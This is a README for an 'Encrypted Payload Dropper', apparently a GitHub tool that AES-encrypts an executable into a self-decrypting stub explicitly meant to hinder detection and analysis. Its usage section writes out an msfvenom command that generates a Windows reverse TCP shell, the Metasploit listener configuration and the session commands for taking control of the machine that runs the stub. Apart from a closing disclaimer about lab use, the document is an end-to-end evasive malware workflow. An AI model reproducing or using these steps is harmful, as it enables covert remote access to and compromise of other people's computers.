 # Encrypted Payload Dropper

## 🔹Description
This script encrypts an executable (payload) using AES encryption and generates a decryption stub. The stub decrypts and executes the payload, making detection and analysis more difficult. It is designed for educational purposes and security research.

## 🛠 Features
- Encrypts a given executable using AES in CTR mode.
- Generates a Python stub that decrypts and executes the payload.
- Uses `pyinstaller` to create a standalone executable.

## 🚀 How It Works
1. The script reads the `shell.exe` file (payload).
2. Encrypts it using AES encryption.
3. Generates a stub script (`stub.py`) containing the encrypted payload.
4. Converts `stub.py` into an executable using `pyinstaller`.
5. When executed, the stub decrypts the payload and runs it.

## 📌 Requirements
- Python 3
- `pyaes` module
- `pyinstaller`
- Metasploit Framework (for payload generation and listener)

## 🔧 Installation
```bash
pip install pyaes pyinstaller
```

## 📦 Usage
### 1️⃣ Generate the Payload
Use `msfvenom` to create a reverse shell payload:
```bash
msfvenom -p windows/x64/shell_reverse_tcp lhost=<your_ip> lport=443 -f exe > shell.exe
```
Place the `shell.exe` file in the script's directory.

### 2️⃣ Encrypt the Payload
Run the script:
```bash
python crypto.py
```
It will generate `stub.py` and convert it into an executable inside the `dist` folder.

### 3️⃣ Start Metasploit Listener
Open Metasploit and set up the listener:
```bash
msfconsole
use multi/handler
set payload windows/x64/shell_reverse_tcp
set lhost <your_ip>
set lport 443
set exitonsession 0
exploit -j
```

### 4️⃣ Execute the Stub
Run the generated executable (`dist/stub.exe`). This will decrypt and execute the payload. If successful, you will receive a session in Metasploit.

### 5️⃣ Manage Sessions
- View active sessions:
  ```bash
  sessions
  ```
- Interact with a session:
  ```bash
  sessions <id>
  ```

## ⚠ Disclaimer
Use this script only in controlled environments such as penetration testing labs, with explicit permission. Misuse of this tool for unauthorized access to systems is illegal and may result in severe consequences. **The risk is yours**.


